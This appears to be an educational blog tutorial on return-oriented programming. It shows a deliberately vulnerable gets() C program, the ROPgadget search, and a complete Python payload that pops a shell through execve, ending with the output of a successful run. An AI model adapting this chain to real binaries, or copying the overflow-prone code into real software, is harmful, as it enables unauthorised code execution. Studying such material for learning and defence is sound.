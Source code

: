 ```yaml
---
layout: post
title: "[ROP] Easy method"
categories: [pwn]
tags: [pwn, ROP]
description: How to bypass NX/ASLR protections with a statically linked binary using ROP on a x64 Linux system.
---
```


Tools:
1. objdump
2. ROPgadget

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

# 1. Vulnerable binary
For this exemple, I will take a very simple code.
```c
#include <stdio.h>

// gcc main.c -fno-stack-protector -Wl,-z,relro,-z,now,-z,noexecstack -static
int main()
{
  char buf[64];

  gets(buf);  // Never use this this function !
  printf("%s", buf);
  return 0;
}
```

Like you can see, the vulnerability is near the gets function. As the gets function does not control the size of the input data, we will easily can pass an exploit thanks to the ROP method.

# 2. To begin
Our goal is to get a shell. For this, I choose to use the execve syscall.

For remind: 
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

So we will have:
RDI = "/bin//sh"
RSI = NULL
RDX = NULL
RAX = 59

# 3. Payload construction
To construct our payload, we will first need to set RSI (the filename arg of execve) to the string "/bin//sh". (double slash because of 64 bits architecture)
We will use the @data section to store our string. To get the data section address we will use objdump:
```bash
$ objdump -D a.out | grep data
...
Disassembly of section .data:
00000000006b4000 <__data_start>:
...
```

Ok, now we need the gadget to set RDI register.

We will need the following gadget:
```nasm
pop rdi                     ; to set RSI address point to the data section.
pop rsi                     ; to store tempararily the data section address. (because the binary does not contain "mov qword ptr [rdi], rax ; ret" gadget)
pop rax                     ; to store temporarily the string "/bin//sh".
mov QWORD PTR [rsi], rax    ; to move the string to the address pointed by rsi. (the data section address)
```

Thanks to ROPgadget, it's very easy to locate the gadget:
```bash
$ ROPgadget --binary a.out| egrep 'pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret'
...
0x000000000045f491 : mov qword ptr [rsi], rax ; ret
0x00000000004314ad : pop rax ; ret
0x00000000004016b7 : pop rsi ; ret
0x000000000040159b : pop rdi ; ret
...
```

After multiple test, I found 72 of padding before rewrite RIP.
So our payload will begin like this:
```python
p = 'A'*72
p += pack('<Q', 0x00000000004016b7) # pop rsi ; ret
p += pack('<Q', 0x00000000006b4000) # adress of the data section
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000045f491) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040159b) # pop rdi ; ret
p += pack('<Q', 0x00000000006b4000) # adress of the data section
```

So now we just have to repeat this step for the next two arguments.
We will have:
```python
p += pack('<Q', 0x0000000000432d49) # pop rdx ; pop rsi ; ret
p += pack('<Q', 0x0000000000000000) # set rdx to NULL
p += pack('<Q', 0x0000000000000000) # set rsi to NULL
```

The last step is to set RAX to 59 (the number of execve syscall) and call the "syscall" instruction.
```python
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += pack('<Q', 0x000000000000003b) # Set rax to 59
p += pack('<Q', 0x0000000000454515) # syscall ; ret
```

# 4. Exploitation
The whole payload:
```python
#!/usr/bin/env python2

from struct import pack

p = 'A'*72 # padding

p += pack('<Q', 0x00000000004016b7) # pop rsi ; ret
p += pack('<Q', 0x00000000006b4000) # address of data section
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000045f491) # mov qword ptr [rsi], rax ; ret

p += pack('<Q', 0x000000000040159b) # pop rdi ; ret
p += pack('<Q', 0x00000000006b4000) # address of data section
p += pack('<Q', 0x0000000000432d49) # pop rdx ; pop rsi ; ret
p += pack('<Q', 0x0000000000000000) # set rdx to 0
p += pack('<Q', 0x0000000000000000) # set rsi to 0
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += pack('<Q', 0x000000000000003b) # Set rax to 59
p += pack('<Q', 0x0000000000454515) # syscall ; ret

print p
```

Now we test:
```bash
$ (python2 rop.py; cat) | ./a.out
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

Done.
